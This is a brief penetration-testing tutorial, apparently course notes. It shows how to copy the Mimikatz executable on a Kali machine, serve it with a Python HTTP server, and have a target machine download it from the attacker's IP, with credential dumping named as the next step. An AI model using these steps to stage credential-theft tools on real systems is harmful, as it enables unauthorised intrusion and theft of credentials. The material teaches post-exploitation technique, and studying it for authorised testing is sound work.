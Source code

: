 ### Demo: Transferring Mimikatz to a Target System

We are going to transfer **Mimikatz** to a target system using a Python web server for file hosting and retrieval.

---

#### Step 1: Copy Mimikatz Executable

**This command copies the Mimikatz x64 executable into our current directory, which could be our home direcotry or any other directory we prefer.**

```bash
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
```

#### Step 2: Setting Up a Web Server

---

**We set up a Python HTTP server to serve the Mimikatz executable to the target system.**

There are two options depending on our Python version:

Using Python 2:

```bash
python -m SimpleHTTPServer 80
```

Using Python 3:

```bash
python3 -m http.server 80
```

This will start a web server on port 80, serving files from the current directory.

---

#### Step 3: Accessing the Web Server

To retrieve the file from the target system, we copy the Kali Linux IP address and paste it into a browser on the target machine or udr a command to download the file. For example:

```bash
http://[YourIP]:80/mimikatz.exe
```

This URL points to the Mimikatz executable hosted on our Kali machine, allowing the target system to download the file.

#### Conclusion

By copying the Mimikatz executable and setting up a Python HTTP server, we can easily transfer files to the target system. Once the target system downloads the file, we can proceed with further post-exploitation tasks, such as credential dumping using Mimikatz.

---
